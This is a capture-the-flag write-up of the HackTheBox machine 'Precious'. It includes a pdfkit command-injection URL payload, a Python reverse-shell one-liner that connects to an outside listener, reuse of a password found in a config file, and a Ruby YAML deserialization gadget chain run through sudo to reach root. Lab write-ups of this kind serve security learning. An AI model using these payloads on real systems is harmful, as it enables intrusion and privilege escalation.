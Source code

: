 # HTB Machine Precious 

Port scaning with nmap
- port 80 is open : redirect to http://precious.htb/

add this to `/etc/hosts`

On this page we have **Convert Web Page to PDF** functionality 

<img width="474" alt="image" src="https://user-images.githubusercontent.com/79740895/231573264-a9246425-3e38-4e9d-8b5a-431684ceff6f.png">

after giving url pdf file is downloaded 

using exiftool on pdf we know that it is _Generated by pdfkit v0.8.6_

This version is vulnerable to RCE 

Payload: 
```url
http://%20`{command}`
```

we can use this to get reverse shell

```shell
http://%20`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.40",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'`
```

references: https://www.revshells.com/

we get shell as user ruby

<img width="216" alt="image" src="https://user-images.githubusercontent.com/79740895/231575127-06729034-9ced-4058-bc70-6b335f7044f9.png">

we can see two user in /home directory 

<img width="83" alt="image" src="https://user-images.githubusercontent.com/79740895/231575282-f6f90c02-7aa8-4d87-ba56-d603b07b02eb.png">

user flag is in directory of user henry but it is not accessible.

inside the directory of user ruby there is config file in .bundle in this file we can see password of user henry

<img width="252" alt="image" src="https://user-images.githubusercontent.com/79740895/231575704-cd2668c0-8a7e-4542-91bb-669cb7bdaed1.png">

we can use this for ssh to henry

user can run /opt/update_dependencies.rb as root with sudo

<img width="344" alt="image" src="https://user-images.githubusercontent.com/79740895/231576872-90fbe14a-5858-4480-83a5-901366213b58.png">

this file is not writable. looking at code we see it use YAML.load, which is vulnerable to deserialization attack.

<img width="213" alt="image" src="https://user-images.githubusercontent.com/79740895/231577426-1faf86eb-003b-4c17-be99-0ca2b7c79a60.png">

we can write in dependencies.yml

payload:
```yaml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: cat /root/root.txt
         method_id: :resolve
```

reference: https://gist.github.com/staaldraad/89dffe369e1454eedd3306edc8a7e565#file-ruby_yaml_load_sploit2-yaml

now we can run this with sudo and get the root flag
`sudo /usr/bin/ruby /opt/update_dependencies.rb`


This give root flag.

<br />

:octocat: Happy Hacking :octocat:


